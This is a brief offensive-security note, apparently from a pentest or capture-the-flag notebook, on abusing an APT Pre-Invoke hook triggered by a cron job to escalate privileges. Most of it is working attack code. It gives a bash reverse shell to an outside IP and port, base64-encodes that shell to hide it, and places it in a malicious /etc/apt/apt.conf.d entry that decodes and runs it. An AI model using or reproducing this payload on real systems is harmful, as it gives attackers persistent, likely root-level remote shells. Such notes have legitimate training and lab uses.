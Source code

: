 Pre-invoke files in cron are scripts or commands executed before a scheduled cron job runs. These files serve as preparatory steps, allowing administrators to set up the environment or perform necessary actions before the main cron job execution. 

# APT update pre-invoke

![[Pasted image 20240401163639.png]]

In this example we fund an apt update cron executed each 5 minutes
We can create a pre-invoke for this cron to be excuted before.
https://www.cyberciti.biz/faq/debian-ubuntu-linux-hook-a-script-command-to-apt-get-upgrade-command/

### Creating the payload

The file must be loaded as 
`sudo vi /etc/apt/apt.conf.d/`

As good practice, it's better to use base64
`echo "bash -i >& /dev/tcp/10.10.14.70/4443 0>&1" | base64`

>YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43MC80NDQzIDA+JjEK

#### Payload:
Creating a *malicious* file
   `APT::Update::Pre-Invoke  {"echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43MC80NDQzIDA+JjEK | base64 -d | bash";};`
After charge the payload and listen in attacker machine by the port defined